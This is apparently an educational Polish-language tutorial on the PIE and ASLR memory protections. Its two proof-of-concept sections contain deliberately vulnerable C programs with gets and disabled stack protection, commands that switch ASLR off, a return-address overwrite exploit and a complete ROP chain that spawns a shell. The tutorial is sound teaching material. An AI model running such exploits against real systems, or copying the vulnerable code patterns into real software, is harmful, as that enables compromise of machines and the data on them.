










# ASLR & PIE

Techniki obrony ASLR i PIE są ze sobą sciśle powiązane, dlatego ich omówienie znajduję się w jednym pliku.

### 1. PIE

PIE (Position indepented executable) - jest to sposób kompilacji kodu w taki sposób, że jest on niezależny od pozycji w pamięci.

Można to zobaczyć disassemblując plik kompilowany bez i z PIE. 

W przypadku pliku bez PIE adresy są zapisane w kodzie. 



W przypadku pliku z PIE liczone są offsety.



Widać
to w sposobie adresacji binarki.

Wpływ PIE na performance aplikacji jest dość duży. Biorąc za przykład architekturę 32bitową domyślnym zachowaniem kompilatora jest zarezerwowanie rejestru `ebx` jako adresu przetrzymującego adres tablicy GOT z której otrzymywane są pozostałe adresy. To generuje spadek performance'u - musimy ustalać adresy pośrednio.

Generuje to sporo problemów. Zostaje nam odebrany jeden rejestr do używania w trakcie realizacji programu. Dodatkowo rejestr `ebx` używany jest jako rejestr, w którym znajdują się argumenty w syscall'ach. Przez to przekazywanie argumentów jest skompliowane i wymaga dodatkowych instrukcji `push pop`.

Badania mówią o średnio 10% spadku wydajności. Maksymalnie do 25%. 

PIE pozwala na lepsze użycie ASLR.

### 2. ASLR

ASLR (Address space layout randomization) - to technika polegająca na losowym umieszczeniu sekcji programu, aby uniemożliwić
skakanie do danych sekcji. Jest to dość duże utrudnienie w atakach binarnych. W dużej cześci ataków oznacza to po prostu zgadywanie danej wartości do skutku.

ASLR najlepiej stosować na kodzie skompilowanym z PIE, wtedy możemy załadować kod i PLT do losowych adresów, w przeciwnym razie kod i PLT jest statyczny, a losowość dotyczy jedynie bibliotek, stosu oraz sterty.

Samo ASLR może okazać się pomocne w obronie przed atakami na wykonywalny stos - wtedy skok na taki stos nie jest prosty, bo jego adres jest losowy. Jest to też dobra obrona przed atakami typu ROP oraz ret2libc.

ASLR utrudnia ataki polegające na liczeniu offsetu, lub pozycji danych w pamięci. Na architekturze 32bit losowość jest dość mała, więc przestrzeń adresową da się obejść atakiem siłowym. Jednak w przypadku 64 bit jest to już spory problem.

Ważny aspektem ASLR jest także entropia samego losowania, która powinna być jak największa dla większego bezpieczeństwa.

##### Przykład:

Ten sam kod uruchomiony dwa razy ma inna przestrzeń adresową.






Główna róznica pomiedzy implementacją Linuxową i Windowsową jest to, że w Linuxie jest to opcja compile-time, a w Windowsie link-time.

W Linuxie ASLR jest implementowane w kernelu. Na linuxie ASLR ma wpływ na performance przez to, że binarki obsługujące ASLR muszą być kompilowane z PIE (Position Independent Executable), co prowadzi nawet do 25% gorszego performance'u na 32bit x86. 


Na Windowsie ASLR jest włączany poprzez linkowanie z opcja `/DYNAMICBASE`. Na windowsie wpływ na performance run-time jest raczej niewielki, ale ASLR może spowolnić ładowanie modułów.

### 3. Proof of Concept - sterowanie wykonaniem programu bez randomizacji

Exploit nie używa wykonalnego stosu.

Przed wykonaniem tego exploitu wyłączyłem ASLR w swoim systemie. Odbywa się to za pomocą ustawienia flagi w systemie.

Można to zrobić np. tak `echo "0" | sudo dd of=/proc/sys/kernel/randomize_va_space`.

Aby ASLR włączyć na nowo należy ustawić flagę na 2 - ``echo "2" | sudo dd of=/proc/sys/kernel/randomize_va_space``.

Kod programu, który bedzie exploitować jest następujący:

- **PIE & ASLR**: wyłączony - jest to przedmiotem tego exploitu, powrót do funkcji jest możliwy jeżeli wiem, gdzie skoczyć.
- **CANARY**: wyłączony - kanarek nie pozwoliłby nadpisać adresu powrotu, zajmiemy się nim w dalszej cześci.
```c
// gcc vuln.c -no-pie -std=c99 -m32 -fno-stack-protector -w -o vuln.o

#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <unistd.h>

void secret() {
    system("sh");
}

void ask_for_name()
{
char name[12] = {0};
    puts("What's your name?");
    gets(name);
    printf("Hi %s!\n", name);
}

int main()
{
    ask_for_name();
return 0;
}
```

Chcę wywołać funkcję `secret` spawnującą shella. Aby to zrobić chce nadpisać adres powrotu funkcji `ask_for_name()` na właśnie tą funkcje.

Na początku staram się ustalić, kiedy nadpiszę `eip` przesyłając do ofiary duży string z podłączonym debuggerem.


```python
from pwn import *

p = process("./vuln.o")

p.readuntil("What's your name?\n")

name = "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOO"

p.sendline(name)
```




W rejestr `eip` trafiła litera G. Co pozwala mi ustalić miejsce, w które wstrzykne adres funkcji secret().

Adres funkcji `secret()` uzyskam używając gdb.



Adres ten muszę też przekształcić do little endian.


```python
from pwn import *

p = process("./vuln.o")

name = b'AAAABBBBCCCCDDDDEEEEFFFF'
name += b'\xc9\x61\x55\x56'

p.sendline(name)
```

W tym momencie exploit powinien działać i wywoływać funkcję secret.



Exploit działa jeśli flaga ASLR jest ustawiona na 0.

W momencie ustawienia jej na 2 exploit nie działa - adres, który nadpisuję nie jest adresem funkcji `secret`. Program został załadowany pod inny adres.



Adres, który wywołuje `eip` jest losowym adresem, więc wykonanie konczy się `SIGSEGV`, bo program chciał odnieść się do zabronionej dla niego pamięci.

Warto dodać, że w przypadku wykonania exploitu na programie kompilowanym z PIE, ale z wyłączonym ASLR - exploit działa. Samo PIE bez ASLR nie chroni przed takim atakiem.

### 4. Proof of concept - atak typu ROP

W tym momencie warto byłoby przyjrzeć się atakom typu ROP. 

Ideą takiego ataku jest wykorzystanie fragmentów kodu znajdujących się już w naszej aplikacji. Nie muszą to być fragmenty, które są kodem. Tekst zawierający odpowiednie sekwencje bitów lub kod bibliotek jeżeli są linkowane statycznie jest również możliwy do wykorzystania.

Atakujący za pomocą ROP szuka małych fragmentów assemblera, które kończą się instrukcja `ret`, czyli `c3`. W taki sposób fragment takiego kodu jest wykonywany mimo niewykonywalnego stosu. Kod nie jest wykonywane na stosie. Ze stosu są jedynie pobierane adresy fragmentów kodu - tzw. ROP Gadgetów. 

Z tych Gadgetów tworzy się łancuch realizujący, to co chce atakujący.

Moim zadaniem jest więc załadować do rejestrów odpowiednie wartości i wywołać `execve` za pomocą łańcucha takich Gadgetów nazywanego ROP chain.

Kod exploitowanej aplikacji:

Kompilacja:
- **PIE**: wyłączony - PIE został wyłączony, aby Gadgety znajdujące się w kodzie były na stałych miejsach.
- **EXEC**: bez znaczenia - statycznie zlinkowane biblioteki bez PIE bedą na stałych adresach, stos nie jest używany
- **ASLR**: wyłączony - jest to idea tego exploitu.
- **CANARY**: wyłączony - kanarek nie pozwoliłby nadpisać adresu powrotu, zajmiemy się nim w dalszej cześci.

```c
// gcc vuln.c -no-pie -std=c99 -m32 -fno-stack-protector -w -static -o  vuln.o

#include <stdio.h>
#include <string.h>
#include <stdlib.h>

void ask_for_name()
{
    char name[16] = {0};
    puts("What's your name?");
    gets(name);
    printf("Hi %s!\n", name);
}

int main()
{
    ask_for_name();
    return 0;
}
```

Aplikacja jest zlinkowana statyczne w celu uzyskania jak największej ilości gadgetów. W przypadku dużych aplikacji odpowiednie gadgety mogły znajdować się w kodzie aplikacji.

Za pomocą narzędzia gotowego narzędzia Ropper szukam ROP gadgetów:



Za pomocą takich instrukcji chcę zbudować chain pozwalający na wywołanie syscalla `execve`. To narzędzie jak i wiele innych oferuje automatyczne składanie łańcuchów ROP z danym celem.

W naszej exploitacji należy pamietać o nie używaniu bajtów `0x0A`, czyli końca linii, który kończy czytanie `gets`.

Komenda podana poniżej generuje rop chain wywołujący shella i nie zawierający zakazanych bajtów.
```bash
ropper -f vuln_2.o -b 000a --chain execve
```

Po otrzymaniu chaina należy jedynie dopisać resztę exploita, czyli dokleić odpowiednią liczbę dowolnego znaku, aby trafić w rejestr `eip`. W tym przypadku jest to 28.

```python

#!/usr/bin/env python
# Generated by ropper ropchain generator #
from struct import pack

p = lambda x : pack('I', x)

IMAGE_BASE_0 = 0x08048000 # c7fd8b0f7cb07554b7f8e67b396605fa8c500b11beb0fb80ec3e797bfd8338ec
rebase_0 = lambda x : p(x + IMAGE_BASE_0)

rop = 'a'*28

rop += rebase_0(0x00001743) # 0x08049743: pop edi; ret; 
rop += '//bi'
rop += rebase_0(0x0000101e) # 0x0804901e: pop ebx; ret; 
rop += rebase_0(0x0009b060)
rop += rebase_0(0x000462fd) # 0x0808e2fd: mov dword ptr [ebx], edi; pop ebx; pop esi; pop edi; ret; 
rop += p(0xdeadbeef)
rop += p(0xdeadbeef)
rop += p(0xdeadbeef)
rop += rebase_0(0x00001743) # 0x08049743: pop edi; ret; 
rop += 'n/sh'
rop += rebase_0(0x0000101e) # 0x0804901e: pop ebx; ret; 
rop += rebase_0(0x0009b064)
rop += rebase_0(0x000462fd) # 0x0808e2fd: mov dword ptr [ebx], edi; pop ebx; pop esi; pop edi; ret; 
rop += p(0xdeadbeef)
rop += p(0xdeadbeef)
rop += p(0xdeadbeef)
rop += rebase_0(0x00007920) # 0x0804f920: xor eax, eax; ret; 
rop += rebase_0(0x0001d55e) # 0x0806555e: pop edx; pop ebx; pop esi; ret; 
rop += rebase_0(0x0009b068)
rop += p(0xdeadbeef)
rop += p(0xdeadbeef)
rop += rebase_0(0x00016f1a) # 0x0805ef1a: mov dword ptr [edx], eax; ret; 
rop += rebase_0(0x0000101e) # 0x0804901e: pop ebx; ret; 
rop += rebase_0(0x0009b060)
rop += rebase_0(0x0001b741) # 0x08063741: pop ecx; add al, 0xf6; ret; 
rop += rebase_0(0x0009b068)
rop += rebase_0(0x0004fa45) # 0x08097a45: pop edx; xor eax, eax; pop edi; ret; 
rop += rebase_0(0x0009b068)
rop += p(0xdeadbeef)
rop += rebase_0(0x00007920) # 0x0804f920: xor eax, eax; ret; 
rop += rebase_0(0x00050360) # 0x08098360: add eax, 1; ret; 
rop += rebase_0(0x00050360) # 0x08098360: add eax, 1; ret; 
rop += rebase_0(0x00050360) # 0x08098360: add eax, 1; ret; 
rop += rebase_0(0x00050360) # 0x08098360: add eax, 1; ret; 
rop += rebase_0(0x00050360) # 0x08098360: add eax, 1; ret; 
rop += rebase_0(0x00050360) # 0x08098360: add eax, 1; ret; 
rop += rebase_0(0x00050360) # 0x08098360: add eax, 1; ret; 
rop += rebase_0(0x00050360) # 0x08098360: add eax, 1; ret; 
rop += rebase_0(0x00050360) # 0x08098360: add eax, 1; ret; 
rop += rebase_0(0x00050360) # 0x08098360: add eax, 1; ret; 
rop += rebase_0(0x00050360) # 0x08098360: add eax, 1; ret; 
rop += rebase_0(0x00030e70) # 0x08078e70: int 0x80; ret; 
print rop

```

Kod wygenerowany przez Ropper realizuje wywołanie funkcji `execve` z `bin/sh`.

Narzędzie generuję kod obsługiwany przez python2, więc w tym przypadku aby exploit wykonać używam komendy:

```bash
(python2 exploit_2.py && cat) | ./vuln_2.o
```

Komenda ta w sprytny sposób sprawia, że otrzymany shell nie dostaje `EOF` i jest interaktywny.



W podanym przykładzie biblioteki zlinkowane są statycznie przez co ich adres pozostaje taki sam. W przypadku linkowania dynamicznego wraz z włączonym ASLR atak ten staje sie znacznie trudniejszy. W tym przypadku exploit nie działa z dynamicznym linkowaniem. Nie można kompilować jednoczesnie z flaga PIE i static.


### 5. Wnioski

PIE i ASLR są technikami bardzo komplementarnymi i używanie ich razem daje największą ochronę przed atakami, które używają skakania pomiędzy sekcjami oraz offsetów w adresowaniu.